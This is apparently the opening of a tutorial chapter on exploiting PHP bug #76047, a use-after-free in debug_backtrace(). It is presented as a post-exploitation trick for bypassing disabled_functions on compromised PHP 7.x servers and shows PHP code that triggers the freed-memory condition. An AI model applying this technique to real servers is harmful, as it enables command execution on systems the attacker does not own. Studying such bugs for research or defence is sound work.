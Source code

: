 # Bug #76047 - Bypassing ``disabled_functions``

>The exploit we'll talk about in this chapter is intended for **post-exploitation**. You'll use it cases where you have a File Upload vulnerability but the target PHP environment is hardened and you cannot execute dangerous functions such as ``system()``, ``passthru()``, ``exec()`` etc. 
>
>This will help you to escape out of the "sandbox" that PHP creates.
>
> ![screenshot1](./res/bypassing_disabled_functions.png)

**TL;DR**: In this chapter, we are creating an empty, anonymous PHP function and then corrupting its memory to make it execute ``system()``. The exploit should work on all PHP 7.0-7.4 versions and the bug was fixed around Feb 2020.

## The bug

A use-after-free was found in the [debug_backtrace()](https://www.php.net/manual/en/function.debug-backtrace.php ) function.

When calling ``debug_backtrace()``, it returns an array with a backtrace info containing a lot of information about the currently-executed PHP script. 

This information includes things like class names, function names that were called and also **function arguments** that were supplied.

Turns out that it's possible to retrieve function arguments that were already free'd using ``debug_backtrace()`` :

```php
<?php
global $backtrace; // when using global, we're making $backtrace to be accessible from anywhere in the PHP script

class Vuln {
        public $a;
        public function __destruct() {
                global $backtrace;
                unset($this->a); // free'ing $arg's zend_string
                $backtrace = debug_backtrace(); // retrieving $arg after it was free'd using debug_backtrace(), the result will be saved in $backtrace, which is a global variable in our script. Hence, we will be able to access it from anywhere in the PHP script and not only in the __destruct method.
        }
}

function trigger_uaf($arg) {
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg; // making $vuln->a point to $arg's zend_string

        // .... more zend stuff is happening in the background ...

        // at this point(end of the function), the __destructor() function of the $vuln object is called
}

```